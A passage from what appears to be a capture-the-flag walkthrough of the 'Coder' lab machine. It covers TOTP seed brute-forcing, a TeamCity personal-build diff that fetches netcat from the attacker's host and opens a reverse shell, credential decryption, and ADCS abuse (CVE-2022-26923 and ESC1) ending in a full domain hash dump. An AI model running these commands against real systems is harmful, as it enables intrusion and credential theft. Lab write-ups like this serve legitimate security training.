        var key = CryptoJS.AES.decrypt(enc, line).toString();
        var result = CryptoJS.AES.decrypt(secret, key).toString();
        var seed = Buffer.from(result, 'hex').toString();
    
        if (seed.length > 10 && /^[\x00-\x7F]*$/.test(seed)) {
            console.log(`line: ${line}\nkey: ${key}\nresult: ${result}\nseed: ${seed}`);
            rl.close();
            process.exit();
        }
    })
    

Running that returns the password of “skyblade” and the seed:

    
    
    oxdf@hacky$ node brute.js /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
    line: skyblade
    key: 3a3c2614b17654f9f15dce9dd282955e4f82e32dd0397fbb5b6730354a3dc6a7465091e1bea6fd465aa83743fbd9e630c9dff2c461da26737dc693d0d88623129b7c1a9342d0c88b406d7d542d4414ee4f13ee3e127d9ed0a124773d66e8af460d4347e3551dace0299452b898cc01396c6c4cc8ab967cad
    result: 504d32434736524f3733515437345753
    seed: PM2CG6RO73QT74WS
    

#### Login

I’ll go back into the Authenticator plugin, click the pencil then the plus,
and fill it in:



Now at `teamcity-dev.coder.htb`, I’ll log in with s.blade /
veh5nUSZFFoqz9CrrhSeuwhA, and when it asks for a code, get it from
Authenticator. It’s a bit slow, but it logs in:



### Pipeline Execution

#### TeamCity Enumeration

There’s one project in TeamCity, “Development_Testing”:



The project shows one build back when the box was just going to release:



If I go into that build, under the Parameters tab, it shows it is configured
to use the repo on the file share from above:



Under “Build Log”, there’s the results of the pipeline, including where the
`hello_world.ps1` script is run and the output is presented:



Clicking the “Run” button starts another pipeline and gives similar results.



The “…” button next to “Run” loads the options for a run:



The “run as personal build” option is documented
[here](https://www.jetbrains.com/help/teamcity/2022.10/personal-build.html):

> A _personal build_ is a build-out of the common build sequence which
> typically uses the changes not yet committed into the version control.
> Personal builds are usually initiated from one of the [supported
> IDEs](https://www.jetbrains.com/help/teamcity/2022.10/supported-platforms-
> and-environments.html#Remote+Run+and+Pre-tested+Commit) via the [Remote
> Run](https://www.jetbrains.com/help/teamcity/2022.10/remote-run.html)
> procedure. You can also upload a patch with changes directly to the server,
> as described
> [below](https://www.jetbrains.com/help/teamcity/2022.10/personal-
> build.html#Direct+Patch+Upload).

#### RCE

I don’t have write access to the SMB share, so I can’t change the repo
contents there. However, I can use the personal build option to upload a diff
file to effectively make changes to the repo that way.

I’ll create a dummy repo and add `hello_world.ps1`:

    
    
    oxdf@hacky$ mkdir ~/repo
    oxdf@hacky$ cp hello_world.ps1 ~/repo/
    oxdf@hacky$ cd ~/repo/
    oxdf@hacky$ git init
    Initialized empty Git repository in /home/oxdf/repo/.git/
    oxdf@hacky$ git add hello_world.ps1 
    oxdf@hacky$ git commit -m "as on coder"
    [main (root-commit) 42bd623] as on coder
     1 file changed, 2 insertions(+)
     create mode 100755 hello_world.ps1
    

I’ll update `hello_world.ps1` to include commands to fetch netcat from my
server and return a reverse shell:

    
    
    #Simple repo test for Teamcity pipeline
    write-host "Hello, World!"
    
    iwr http://10.10.14.6/nc64.exe -outfile \ProgramData\nc64.exe
    \ProgramData\nc64.exe -e powershell 10.10.14.6 443
    

Running `git diff` shows the diff output for this vs what’s already committed:

    
    
    oxdf@hacky$ git diff
    diff --git a/hello_world.ps1 b/hello_world.ps1
    index 09724d2..6cd6d20 100755
    --- a/hello_world.ps1
    +++ b/hello_world.ps1
    @@ -1,2 +1,5 @@
     #Simple repo test for Teamcity pipeline
     write-host "Hello, World!"
    +
    +iwr http://10.10.14.6/nc64.exe -outfile \ProgramData\nc64.exe
    +\ProgramData\nc64.exe -e powershell 10.10.14.6 443
    oxdf@hacky$ git diff > shell.diff
    

I’ll save it as `shell.diff`.

With a Python webserver serving `nc64.exe`, and `nc` listening on 443, I’ll
start a run with the advanced options:



A few seconds after submitting there’s a request at the webserver:

    
    
    10.10.11.207 - - [20/Nov/2023 16:00:22] "GET /nc64.exe HTTP/1.1" 200 -
    

Then a shell at `nc` as svc_teamcity:

    
    
    oxdf@hacky$ rlwrap nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.207 49367
    Windows PowerShell 
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    PS C:\TeamCity\buildAgent\work\74c2f03019966b3e> whoami
    coder\svc_teamcity
    

## Shell as e.black

### Enumeration

#### Home Directories

The home directory for svc_teamcity is basically empty. There are other users
on the box:

    
    
    PS C:\Users> dir
    
        Directory: C:\Users
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        6/28/2022   8:14 PM                Administrator
    d-----        6/29/2022   9:34 PM                e.black
    d-r---        6/28/2022   8:14 PM                Public
    d-----        11/9/2022   9:42 AM                svc_teamcity
    

`user.txt` must be with e.black.

#### TeamCity

There’s not much of interesting the `C:\TeamCity` directory. However, in
looking around, there’s a `JetBrains\TeamCity` directory in `C:\ProgramData`:

    
    
    PS C:\programdata\JetBrains\TeamCity> ls
    
        Directory: C:\programdata\JetBrains\TeamCity
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       11/20/2023   9:15 PM                config
    d-----        11/3/2022   3:08 PM                lib
    d-----        11/3/2022   3:09 PM                plugins
    d-----       11/20/2023   9:15 PM                system
    

In the `system` folder there’s a folder named `changes`:

    
    
    PS C:\programdata\JetBrains\TeamCity\system\changes> ls
    
        Directory: C:\programdata\JetBrains\TeamCity\system\changes
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        11/8/2022   2:18 PM           1707 101.changes.diff
    -a----       11/20/2023   8:59 PM            323 201.changes.diff
    -a----       11/20/2023   8:59 PM            323 202.changes.diff
    -a----       11/20/2023   8:59 PM            323 203.changes.diff
    -a----       11/20/2023   9:13 PM            323 204.changes.diff
    

These are changes to the repo. For example, `204.changes.diff` (and all the
other recently ones) is the changes that give me a shell:

    
    
    PS C:\programdata\JetBrains\TeamCity\system\changes> type 204.changes.diff
    diff --git a/hello_world.ps1 b/hello_world.ps1
    index 09724d2..6cd6d20 100755
    --- a/hello_world.ps1
    +++ b/hello_world.ps1
    @@ -1,2 +1,5 @@
     #Simple repo test for Teamcity pipeline
     write-host "Hello, World!"
    +
    +iwr http://10.10.14.6/nc64.exe -outfile \ProgramData\nc64.exe
    +\ProgramData\nc64.exe -e powershell 10.10.14.6 443
    

`101.changes.diff` is from before the box release, and different:

    
    
    PS C:\programdata\JetBrains\TeamCity\system\changes> type 101.changes.diff
    diff --git a/Get-ADCS_Report.ps1 b/Get-ADCS_Report.ps1
    index d6515ce..a990b2e 100644
    --- a/Get-ADCS_Report.ps1
    +++ b/Get-ADCS_Report.ps1
    @@ -77,11 +77,15 @@ Function script:send_mail {
         [string]
         $subject
       )
    +
    +$key = Get-Content ".\key.key"
    +$pass = (Get-Content ".\enc.txt" | ConvertTo-SecureString -Key $key)
    +$cred = New-Object -TypeName System.Management.Automation.PSCredential ("coder\e.black",$pass)
     $emailFrom = 'pkiadmins@coder.htb'
     $emailCC = 'e.black@coder.htb'
     $emailTo = 'itsupport@coder.htb'
     $smtpServer = 'smtp.coder.htb'
    -Send-MailMessage -SmtpServer $smtpServer -To $emailTo -Cc $emailCC -From $emailFrom -Subject $subject -Body $message -BodyAsHtml -Priority High
    +Send-MailMessage -SmtpServer $smtpServer -To $emailTo -Cc $emailCC -From $emailFrom -Subject $subject -Body $message -BodyAsHtml -Priority High -Credential $cred
     }
     
     
    diff --git a/enc.txt b/enc.txt
    new file mode 100644
    index 0000000..d352634
    --- /dev/null
    +++ b/enc.txt
    @@ -0,0 +1,2 @@
    +76492d1116743f0423413b16050a5345MgB8AGoANABuADUAMgBwAHQAaQBoAFMAcQB5AGoAeABlAEQAZgBSAFUAaQBGAHcAPQA9AHwANABhADcANABmAGYAYgBiAGYANQAwAGUAYQBkAGMAMQBjADEANAAwADkAOQBmADcAYQBlADkAMwAxADYAMwBjAGYAYwA4AGYAMQA3ADcAMgAxADkAYQAyAGYAYQBlADAAOQA3ADIAYgBmAGQAN
    +AA2AGMANQBlAGUAZQBhADEAZgAyAGQANQA3ADIAYwBjAGQAOQA1ADgAYgBjAGIANgBhAGMAZAA4ADYAMgBhADcAYQA0ADEAMgBiAGIAMwA5AGEAMwBhADAAZQBhADUANwBjAGQANQA1AGUAYgA2AGIANQA5AGQAZgBmADIAYwA0ADkAMgAxADAAMAA1ADgAMABhAA==
    diff --git a/key.key b/key.key
    new file mode 100644
    index 0000000..a6285ed
    --- /dev/null
    +++ b/key.key
    @@ -0,0 +1,32 @@
    +144
    +255
    +52
    +33
    +65
    +190
    +44
    +106
    +131
    +60
    +175
    +129
    +127
    +179
    +69
    +28
    +241
    +70
    +183
    +53
    +153
    +196
    +10
    +126
    +108
    +164
    +172
    +142
    +119
    +112
    +20
    +122
    

This diff shows 2 additional files. `Get-ADCS_Report.ps1` loads a key from
`key.key` and uses it to decrypt `enc.txt` into a password for the e.black
user. Then it sends an email using those creds.

`enc.txt` has a base64-encoded string. `key.key` has a series of bytes as
ints.

### Get Password

To get the password, I’ll create copies of `enc.txt` and `key.key` and upload
them to Coder:

    
    
    PS C:\programdata> iwr 10.10.14.6/key.key -outfile key.key
    PS C:\programdata> iwr 10.10.14.6/enc.txt -outfile enc.txt
    

Then in PowerShell I’ll use the commands above to load them into variables and
get the raw password

    
    
    PS C:\programdata> $key = Get-Content ".\key.key"
    PS C:\programdata> $pass = (Get-Content ".\enc.txt" | ConvertTo-SecureString -Key $key)
    PS C:\programdata> $cred = New-Object -TypeName System.Management.Automation.PSCredential ("coder\e.black",$pass)
    PS C:\programdata> $cred.GetNetWorkCredential().Password
    ypOSJXPqlDOxxbQSfEERy300
    

### WinRM

I’ll connect as e.black over WinRM with [Evil-
WinRM](https://github.com/Hackplayers/evil-winrm):

    
    
    oxdf@hacky$ evil-winrm -i coder.htb -u e.black -p ypOSJXPqlDOxxbQSfEERy300
    
    Evil-WinRM shell v3.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\e.black\Documents>
    

And grab `user.txt`:

    
    
    *Evil-WinRM* PS C:\Users\e.black\Desktop> type user.txt
    6214c8ed************************
    

## Shell as administrator

### Bloodhound

#### Collect

I’ll collect Bloodhound data using the Python script remotely from my host:

    
    
    oxdf@hacky$ bloodhound-python -c All -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -ns 10.10.11.207 -d coder.htb -dc coder.htb --zip
    INFO: Found AD domain: coder.htb
    INFO: Getting TGT for user
    WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
    INFO: Connecting to LDAP server: coder.htb 
    WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: coder.htb
    WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
    INFO: Found 10 users
    INFO: Found 55 groups
    INFO: Found 3 gpos
    INFO: Found 5 ous
    INFO: Found 19 containers                      
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: dc01.coder.htb
    INFO: Done in 00M 28S
    INFO: Compressing output into 20231120165133_bloodhound.zip  
    

I’ll upload that data into the Bloodhound GUI. The first thing I typically do
is mark the users I own as owned. In this case, that’s svc_teamcity, e.black,
and probably s.blade.

#### e.black

e.black doesn’t have any outbound control. They are a member of an additional
interesting group, PKI Admins:



While this is not a default group, it seems like it’ll have control over PKI
things. The comment on the group confirms this has to do with ADCS:

    
    
    *Evil-WinRM* PS C:\Users\e.black> net group "PKI Admins"
    Group name     PKI Admins
    Comment        ADCS Certificate and Template Management
    
    Members
    
    -------------------------------------------------------------------------------
    e.black
    The command completed successfully.
    

#### s.blade

s.blade also has no outbound control, but is a member two groups, “Software
Developers” and “Buildagent Mgmt”:



Both groups have to do with TeamCity:

    
    
    *Evil-WinRM* PS C:\Users\e.black> net group "Buildagent Mgmt"
    Group name     BuildAgent Mgmt
    Comment        Teamcity BuildAgent Management
    
    Members
    
    -------------------------------------------------------------------------------
    s.blade
    The command completed successfully.
    *Evil-WinRM* PS C:\Users\e.black> net group "Software Developers"
    Group name     Software Developers
    Comment        Teamcity CI/CD Development
    
    Members
    
    -------------------------------------------------------------------------------
    j.briggs                 s.blade
    The command completed successfully.
    

### More AD Enumeration

#### OUs

One thing to look at here is the organizational units (OU) in this AD. This
can be done with PowerShell:

    
    
    *Evil-WinRM* PS C:\Users\e.black> Get-ADOrganizationalUnit -filter * | select Name
    
    Name
    ----
    Domain Controllers
    Development
    Groups
    Users
    BuildAgents
    

Most of those are standard, though Development and BuildAgents are unique to
Coder.

#### BuildAgents

While Bloodhound doesn’t show any interesting permissions, it makes sense that
BuildAgent Mgmt would have some permissions over BuildAgents. I can look for
what permissions exist on this OU using PowerShell:

    
    
    *Evil-WinRM* PS C:\> (Get-Acl "AD:OU=BuildAgents,OU=Development,DC=coder,DC=htb").access
    ...[snip]...
    

There’s a lot there, but I’m particularly interested in the rights from groups
I have control over. BuildAgent Mgmt has some access:

    
    
    *Evil-WinRM* PS C:\> (Get-Acl "AD:OU=BuildAgents,OU=Development,DC=coder,DC=htb").access | where IdentityReference -eq "coder\PKI Admins"
    *Evil-WinRM* PS C:\> (Get-Acl "AD:OU=BuildAgents,OU=Development,DC=coder,DC=htb").access | where IdentityReference -eq "coder\Software Developers"
    *Evil-WinRM* PS C:\> (Get-Acl "AD:OU=BuildAgents,OU=Development,DC=coder,DC=htb").access | where IdentityReference -eq "coder\BuildAgent Mgmt"
    
    
    ActiveDirectoryRights : CreateChild, DeleteChild
    InheritanceType       : All
    ObjectType            : bf967a86-0de6-11d0-a285-00aa003049e2
    InheritedObjectType   : 00000000-0000-0000-0000-000000000000
    ObjectFlags           : ObjectAceTypePresent
    AccessControlType     : Allow
    IdentityReference     : CODER\BuildAgent Mgmt
    IsInherited           : False
    InheritanceFlags      : ContainerInherit
    PropagationFlags      : None
    
    ActiveDirectoryRights : Self, ReadProperty, WriteProperty
    InheritanceType       : Descendents
    ObjectType            : 72e39547-7b18-11d1-adef-00c04fd8d5cd
    InheritedObjectType   : bf967a86-0de6-11d0-a285-00aa003049e2
    ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
    AccessControlType     : Allow
    IdentityReference     : CODER\BuildAgent Mgmt
    IsInherited           : False
    InheritanceFlags      : ContainerInherit
    PropagationFlags      : InheritOnly
    

Object Type bf967a86-0de6-11d0-a285-00aa003049e2 is a [Computer
object](https://learn.microsoft.com/en-us/windows/win32/adschema/c-computer),
and 72e39547-7b18-11d1-adef-00c04fd8d5cd is a [Validated-DNS-Host-
Name](https://learn.microsoft.com/en-us/windows/win32/adschema/r-validated-
dns-host-name).

### Exploit - Intended

#### Background - CVE-2022-26923

[This post](https://research.ifcr.dk/certifried-active-directory-domain-
privilege-escalation-cve-2022-26923-9e098fe298f4) does a really nice job of
describing a vulnerability, CVE-2022-26923, in Windows that was patched before
Coder was released.

In this vulnerability, the DNS host name property (`dNSHostName`) were not
required to be unique on a domain, and thus, it was possible to change the
`dNSHostName` property on a computer the attacker has full control over to
match that of a target computer (like the DC), and then abuse ADCS to get a
certificate as that DC. This would give the attacker the ability to do things
as the DC, like dump the hashes.

The post also says that while this vulnerability was patched in the May 2022
security updates, that:

> Certificate Templates with the new `CT_FLAG_NO_SECURITY_EXTENSION`
> (`0x80000`) flag set in the `msPKI-Enrollment-Flag` attribute will **not**
> embed the new `szOID_NTDS_CA_SECURITY_EXT` OID, and therefore, these
> templates are **still vulnerable** to this attack. It is unlikely that this
> flag is set, but you should be aware of the implications of turning this
> flag on.

#### Strategy

e.black has permissions over the PKI / ADCS. I’ll use this to import a new
ADCS template with the `CT_FLAG_NO_SECURITY_EXTENSION` flag set.

Then as s.blade, I’ll add a computer to the domain, specifically to the
BuildAgents OU, with the `dNSHostName` set to `DC01.coder.htb`.

Then I’ll enroll that new machine with the malicious template.

Then I’ll use `certipy` to get a certificate for the DC, using the password
associated with the newly added computer as auth.

With that certificate, I can dump hashes from the DC.

#### Create Template

I’ll use [ADCSTemplate](https://github.com/GoateePFE/ADCSTemplate) PowerShell
scripts to interact with templates on the host. I’ll upload it, and import it:

    
    
    *Evil-WinRM* PS C:\programdata> import-module .\ADCSTemplate.psm1
    

I’ll list the current templates:

    
    
    *Evil-WinRM* PS C:\programdata> get-adcstemplate | fl displayname
    
    displayname : User
    displayname : User Signature Only
    displayname : Smartcard User
    displayname : Authenticated Session
    displayname : Smartcard Logon
    displayname : Basic EFS
    displayname : Administrator
    displayname : EFS Recovery Agent
    displayname : Code Signing
    displayname : Trust List Signing
    displayname : Enrollment Agent
    displayname : Exchange Enrollment Agent (Offline request)
    displayname : Enrollment Agent (Computer)
    displayname : Computer
    displayname : Domain Controller
    displayname : Web Server
    displayname : Root Certification Authority
    displayname : Subordinate Certification Authority
    displayname : IPSec
    displayname : IPSec (Offline request)
    displayname : Router (Offline request)
    displayname : CEP Encryption
    displayname : Exchange User
    displayname : Exchange Signature Only
    displayname : Cross Certification Authority
    displayname : CA Exchange
    displayname : Key Recovery Agent
    displayname : Domain Controller Authentication
    displayname : Directory Email Replication
    displayname : Workstation Authentication
    displayname : RAS and IAS Server
    displayname : OCSP Response Signing
    displayname : Kerberos Authentication
    displayname : Coder-WebServer  
    

There’s a bunch, but Computer seems like the one to copy from. I’ll export it
to a JSON file:

    
    
    *Evil-WinRM* PS C:\programdata> Export-ADCSTemplate -displayName Computer > computer.json
    

Now I can read that back in, and change that flag:

    
    
    *Evil-WinRM* PS C:\programdata> $computer = cat computer.json -raw | ConvertFrom-Json
    *Evil-WinRM* PS C:\programdata> $computer.'msPKI-Enrollment-Flag' = 0x80000
    *Evil-WinRM* PS C:\programdata> $computer | ConvertTo-Json | Set-Content computer-mod.json
    

Now I create the template:

    
    
    *Evil-WinRM* PS C:\programdata> New-ADCSTemplate -DisplayName oxdf -Publish -JSON (cat computer-mod.json -raw)
    

#### Create Malicious Machine Object

[Impacket](https://github.com/SecureAuthCorp/impacket) has a script to add a
computer object to a domain, but it doesn’t by default give the user control
over the DNS name. I’ll make a copy of that script:

    
    
    oxdf@hacky$ which addcomputer.py 
    /home/oxdf/.local/bin/addcomputer.py
    oxdf@hacky$ cp ~/.local/bin/addcomputer.py addcomputer.py
    

The string `dns` shows up at line 229:

    
    
    oxdf@hacky$ cat addcomputer.py | grep -n dns
    229:                    'dnsHostName': '%s.%s' % (computerHostname, self.__domain),
    

I’ll change the script so that the DNS hostname is always DC01:

    
    
                    ucd = {
                        'dnsHostName': '%s.%s' % ('DC01', self.__domain),
                        'userAccountControl': 0x1000,
                        'servicePrincipalName': spns,
                        'sAMAccountName': self.__computerName,
                        'unicodePwd': ('"%s"' % self.__computerPassword).encode('utf-16-le')
                    }
    

Now I’ll add the computer:

    
    
    oxdf@hacky$ python addcomputer.py 'coder.htb/s.blade:AmcwNO60Zg3vca3o0HDrTC6D' -method LDAPS -computer-name "0xdf_PC" -computer-pass "0xdf0xdf" -computer-group OU=BuildAgents,OU=DEVELOPMENT,DC=CODER,DC=HTB
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra
    
    [*] Successfully added machine account 0xdf_PC$ with password 0xdf0xdf.
    

#### Enroll with Template

Now I’ll enroll that computer object in the template:

    
    
    *Evil-WinRM* PS C:\programdata> Set-ADCSTemplateACL -DisplayName oxdf -type allow -identity 'coder\0xdf_PC$' -enroll
    

#### Get Certificate

Now I’ll use [Certipy](https://github.com/ly4k/Certipy) to get the certificate
for the `dc01.coder.htb` machine:

    
    
    oxdf@hacky$ certipy req -u 0xdf_PC\$@dc01.coder.htb -p '0xdf0xdf' -ca CODER-DC01-CA -template oxdf -target dc01.coder.htb
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 21
    [*] Got certificate with DNS Host Name 'DC01.coder.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'dc01.pfx'
    

For the final step to work, I’ll need my clock synced with Coder, running
`sudo rdate -n dc01.coder.htb`. Then use that certificate to authenticate and
get the hash for the legit DC01 machine:

    
    
    oxdf@hacky$ certipy auth -pfx dc01.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Using principal: dc01$@coder.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'dc01.ccache'
    [*] Trying to retrieve NT hash for 'dc01$'
    [*] Got hash for 'dc01$@coder.htb': aad3b435b51404eeaad3b435b51404ee:56dc040d21ac40b33206ce0c2f164f94
    

#### Dump AD Hashes

Now that I have the NTLM hash for the DC01 machine account, I’ll ask it to
give me all the hashes for the domain with `secretsdump`:

    
    
    oxdf@hacky$ secretsdump.py coder.htb/dc01\$@dc01.coder.htb -hashes :56dc040d21ac40b33206ce0c2f164f94 -dc-ip dc01.coder.htb
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra
    
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:26000ce1f6ca4029ec5d3a95631e797c:::
    coder.htb\e.black:1106:aad3b435b51404eeaad3b435b51404ee:e1b96bbb66a073787a3310b5a956200d:::
    coder.htb\c.cage:1107:aad3b435b51404eeaad3b435b51404ee:3ab6e9f70dbc0d19623be042d224b993:::
    coder.htb\j.briggs:1108:aad3b435b51404eeaad3b435b51404ee:e38976c0b20e3e41e9c62da792115a33:::
    coder.htb\l.kang:1109:aad3b435b51404eeaad3b435b51404ee:b8aba4878e4777864b292731ac88b4cd:::
    coder.htb\s.blade:1110:aad3b435b51404eeaad3b435b51404ee:4e4a79beed7d042627d0a7b10f5d008a:::
    coder.htb\svc_teamcity:5101:aad3b435b51404eeaad3b435b51404ee:4c5a6890e09834a6834dbf7a76bf20cb:::
    DC01$:1000:aad3b435b51404eeaad3b435b51404ee:56dc040d21ac40b33206ce0c2f164f94:::
    [*] Kerberos keys grabbed
    Administrator:aes256-cts-hmac-sha1-96:86a6a038ff6058c56a74e2e35008f6b037b8e7bca8c75cc5ee4495f77d0be71e
    Administrator:aes128-cts-hmac-sha1-96:6d63b0853502cbbc8c8e40ad8fe88fa3
    Administrator:des-cbc-md5:37feabd9d9575785
    krbtgt:aes256-cts-hmac-sha1-96:aeb517a1efec8b79479cb1432e734555bc1039bcbd77bcdc39234b37199a70d3
    krbtgt:aes128-cts-hmac-sha1-96:2bab4af978e4cee0b58fa1d377d35981
    krbtgt:des-cbc-md5:100489b5839798cb
    coder.htb\e.black:aes256-cts-hmac-sha1-96:ccb6c47af9a05d91e7610fe396cd8ffcc0e51279a2eee253fab1fb40536a5a85
    coder.htb\e.black:aes128-cts-hmac-sha1-96:650ad0d49ab4bcff325a7f2a846d433f
    coder.htb\e.black:des-cbc-md5:89290da2c2cd16ec
    coder.htb\c.cage:aes256-cts-hmac-sha1-96:ea9cc2144c3106e9325b1ddda16c27c644d9f9b7e95098581ceba19c75d9b296
    coder.htb\c.cage:aes128-cts-hmac-sha1-96:2cff13848c9e8d07339a6ab41bf72088
    coder.htb\c.cage:des-cbc-md5:fd6d578510df1af1
    coder.htb\j.briggs:aes256-cts-hmac-sha1-96:ec3ac8b99094903a3ca006a725dc0867666347efb4baf04d8b2f8b0305ab65ee
    coder.htb\j.briggs:aes128-cts-hmac-sha1-96:39050d78545c40645fa889c13200f8f7
    coder.htb\j.briggs:des-cbc-md5:7f5286d35def8f15
    coder.htb\l.kang:aes256-cts-hmac-sha1-96:d7eb03d2695638c4ba423cd88e22dcdd7c0f6da996e5d6ed3af6c6d7e6c56661
    coder.htb\l.kang:aes128-cts-hmac-sha1-96:25ad8331aa0fa2b26e220040b9e55937
    coder.htb\l.kang:des-cbc-md5:571a573e61ced640
    coder.htb\s.blade:aes256-cts-hmac-sha1-96:ceeab374597121113f3bdee3aab1fed0522506909b2f1ec24dfe36045eb3c252
    coder.htb\s.blade:aes128-cts-hmac-sha1-96:69f4cada02748fba948e4c15460add9e
    coder.htb\s.blade:des-cbc-md5:26eca8ad9deaada2
    coder.htb\svc_teamcity:aes256-cts-hmac-sha1-96:b6c7ed72b4434a89c56295df6b42ca68937702dda15f90f23423e8712abce030
    coder.htb\svc_teamcity:aes128-cts-hmac-sha1-96:d6604e2fadb40bbf71708e7b9c9734a7
    coder.htb\svc_teamcity:des-cbc-md5:264ab5645ed91c86
    DC01$:aes256-cts-hmac-sha1-96:a43b686fdd5f2e576ad834c5b1d4327dd5bdbd3ec579677343a2c6c43c8f1740
    DC01$:aes128-cts-hmac-sha1-96:22192237a3cb399c19a6b469dcd1cba8
    DC01$:des-cbc-md5:cb9758c162ba4943
    [*] Cleaning up...
    

The most important one is the top one, Administrator.

### Exploit - Shortcut

#### Create Template

e.black has rights to create ADCS templates. Above I showed doing that to
upload a template misconfigured like what led to CVE-2022-26923. But I can
upload really any vulenable template.

I’ll take a look at what [certipy](https://github.com/ly4k/Certipy) shows
about the same “Computer” template I modified above. I’ll run it to get all
templates and save them to a file:

    
    
    oxdf@hacky$ certipy find -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -target coder.htb -text
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 34 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 12 enabled certificate templates
    [*] Trying to get CA configuration for 'coder-DC01-CA' via CSRA
    [!] Got error while trying to get CA configuration for 'coder-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'coder-DC01-CA' via RRP
    [*] Got CA configuration for 'coder-DC01-CA'
    [*] Saved text output to '20231115123715_Certipy.txt'
    

The results for “Computer” are:

    
    
      20
        Template Name                       : Machine
        Display Name                        : Computer
        Certificate Authorities             : coder-DC01-CA
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectRequireDnsAsCn
                                              SubjectAltRequireDns
        Enrollment Flag                     : AutoEnrollment
        Private Key Flag                    : AttestNone
        Extended Key Usage                  : Client Authentication
                                              Server Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : CODER.HTB\Domain Admins
                                              CODER.HTB\Domain Computers
                                              CODER.HTB\Enterprise Admins
          Object Control Permissions
            Owner                           : CODER.HTB\Enterprise Admins
            Write Owner Principals          : CODER.HTB\Domain Admins
                                              CODER.HTB\Enterprise Admins
            Write Dacl Principals           : CODER.HTB\Domain Admins
                                              CODER.HTB\Enterprise Admins
            Write Property Principals       : CODER.HTB\Domain Admins
                                              CODER.HTB\Enterprise Admins
    

Let’s make a copy of this that’s vulnerable to ESC1. BlackHills has a [nice
post](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-
services-part-one/) that lays out what’s required for ESC1, including this
image:



Comparing that to the “Computer” template above, I’ll need to change the
“Enrollee Supplies Subject” and “Certificate Name Flag”. If I do a search in
the Certipy repo for that string, I’ll see they are likely related, and the
`ENROLLEE_SUPPLIES_SUBJECT` value is 1:

It has to do with `msPKI-Certificate-Name-Flag`. I’ll start by getting a
template as an object in PowerShell like above:

    
    
    *Evil-WinRM* PS C:\programdata> Export-ADCSTemplate -displayName Computer > computer.json
    *Evil-WinRM* PS C:\programdata> $computer = cat computer.json -raw | ConvertFrom-Json
    

I can find the exact name for the property I need to change:

    
    
    *Evil-WinRM* PS C:\programdata> $computer | get-member | findstr Name-Flag
    msPKI-Certificate-Name-Flag   NoteProperty int msPKI-Certificate-Name-Flag=402653184
    

I’ll set that to 0x1:

    
    
    *Evil-WinRM* PS C:\programdata> $computer.'msPKI-Certificate-Name-Flag' = 0x1
    

Now output it to JSON and then create the template, and enroll e.black:

    
    
    *Evil-WinRM* PS C:\programdata> $computer | ConvertTo-Json | Set-Content computer-mod-esc1.json           
    *Evil-WinRM* PS C:\programdata> New-ADCSTemplate -DisplayName "0xdf-ESC1" -Publish -JSON (cat computer-mod-esc1.json -raw)
    *Evil-WinRM* PS C:\programdata> Set-ADCSTemplateACL -DisplayName "0xdf-ESC1" -type allow -identity 'coder\e.black' -enroll
    

If I scan Coder with `certipy` now looking for vulnerable templates (with
`-vulnerable`), this new template comes out:

    
    
    oxdf@hacky$ certipy find -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -target coder.htb -text -stdout -vulnerable
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    ...[snip]...
    Certificate Templates
      0
        Template Name                       : 0xdf-ESC1
        Display Name                        : 0xdf-ESC1
        Certificate Authorities             : coder-DC01-CA
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : True
        Certificate Name Flag               : EnrolleeSuppliesSubject
        Enrollment Flag                     : AutoEnrollment
        Private Key Flag                    : AttestNone
        Extended Key Usage                  : Server Authentication
                                              Client Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
